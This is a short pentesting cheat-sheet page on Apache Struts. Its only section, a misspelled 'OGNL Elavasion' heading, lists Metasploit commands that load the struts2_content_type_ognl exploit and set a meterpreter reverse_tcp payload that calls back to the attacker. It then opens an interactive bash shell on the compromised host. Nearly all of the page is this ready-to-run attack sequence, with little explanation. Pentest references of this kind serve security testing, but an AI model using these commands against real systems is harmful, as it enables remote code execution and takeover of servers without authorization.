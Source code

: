 ```yaml
---
title: Apache Struts Pentesting
desc: An open-source web application framework for developing Java EE web applications.
tags: [Apache, OGNL, Struts]
alts: []
render_with_liquid: false
---
```


## 1. Struts2 OGNL Elavasion

1. **Use Metasploit**

    ```sh
    msfconsole
    msf > use multi/http/struts2_content_type_ognl
    msf > set payload linux/x86/meterpreter/reverse_tcp
    msf > exploit

    meterpreter > shell
    SHELL=/bin/bash script -q /dev/null
    ```
